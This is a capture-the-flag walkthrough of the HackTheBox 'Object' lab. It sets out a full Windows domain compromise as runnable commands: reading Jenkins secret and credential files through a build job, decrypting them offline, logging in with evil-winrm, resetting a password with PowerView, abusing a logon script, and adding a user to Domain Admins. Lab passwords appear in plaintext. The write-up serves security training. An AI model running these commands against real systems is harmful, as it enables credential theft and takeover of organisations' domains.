

# [Object](https://app.hackthebox.com/machines/Object)

```bash
nmap -p- --min-rate 10000 10.10.11.132 -Pn 
```


After discovering open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p80,5985,8080 10.10.11.132
```


For port (8080), there is `Jenkins` application is up.

I create an account and login into Jenkins.


Dr4ks: Dr4ks


I create a job for Dr4ks user.


I select `Execute Windows batch command` for Build section on Job.


I also add cronjob time (means **every minute**)


I can see output as below.


`Jenkins Enumeration` starts from here.


config.xml is here.


Let's copy this via below command.
```bash
powershell -c cat ..\..\users\admin_17207690984073220035\config.xml
```


I also took `master.key` file from `secrets` folder

```bash
powershell -c cat ..\..\secrets\master.key
```


I need to get `hudson.util.secret` file via below command (as because it is binary, I need to get this `base64` encoded).

```bash
powershell -c [convert]::ToBase64String((cat ..\..\secrets\hudson.util.Secret -Encoding byte)) 
```


I will use [offline Jenkins decryptor](https://github.com/gquere/pwn_jenkins)


```bash
python3 jenkins_offline_decrypt.py /home/kali/Desktop/master.key /home/kali/Desktop/hudson.util.secret /home/kali/Desktop/config.xml 
```


This is the credentials of `oliver` user.

oliver: c1cdfun_d2434


Let's get  into machine via this credentials by using `evil-winrm` tool.

```bash
evil-winrm -i 10.10.11.132 -u oliver -p c1cdfun_d2434
```

user.txt


Let's use `SharpHound.ps1` on target machine then download this zip file on attacker's machine to see what's going on.

```bash
upload SharpHound.exe
.\SharpHound.exe -c all
download C:\ProgramData\{zip_file}
```





Then start `Bloodhound`.

```bash
neo4j console
bloodhound
```


From this image, I see that for `Oliver` user has `ForceChangePassword` privilege against `Smith` user.


To change password of 'Smith' user, we need to do below actions.

```bash
upload PowerView.ps1
. .\PowerView.ps1
$newpass = ConvertTo-SecureString 'dr4ksdr4ks@' -AsPlainText -Force
Set-DomainUserPassword -Identity smith -AccountPassword $newpass
```


Now, we can login into `Smith` user via credentials which we set previously.


smith: dr4ksdr4ks@


Let's connect via `evil-winrm` command.

```bash
evil-winrm -i 10.10.11.132 -u smith -p 'dr4ksdr4ks@'
```


Pivoting to `Maria` user, from Bloodhound result, I saw that `Smith` user has `GenericWrite` privilege against `Maria` user.


That's why I will use this [blog](https://www.thehacker.recipes/a-d/movement/dacl/logon-script) to enumerate Desktop of `maria` user.

My malicious script to enumerate Desktop of `Maria` user.
```bash
ls \users\maria\desktop\ > \programdata\out2
```

I need to add this cmd.ps1 script into `Maria` user's **scriptpath**
```bash
Set-DomainObject -Identity maria -SET @{scriptpath="C:\\programdata\\cmd.ps1"}
```


Now, let's change malicious Powershell script via copying Excel data.
```bash
echo "copy \users\maria\desktop\Engines.xls \programdata\" > cmd.ps1  
```


Download this data and read.


username:
maria

passwords:
d34gb8@
0de_434_d545
W3llcr4ft3d_4cls

Let's use `crackmapexec` tool to find correct credentials.

```bash
crackmapexec winrm 10.10.11.132 -u maria -p passwords -d 'object.htb'
```


Hola, we found credentials of `maria` user.

maria:W3llcr4ft3d_4cls


From `bloodhound` results, I saw that 'Maria' user has '**WriteOwner**' privilege on `Domain Admins` group.


To abuse this, we need to run below commands.
```bash
. .\PowerView.ps1
Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'maria'
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'maria'
```


We need to exit from here, again login and see that we can check via `net user maria` command that we know that this user belongs to 'Object\Domain Admins'


Also, we can check exactly via `whoami /groups` command.


root.txt

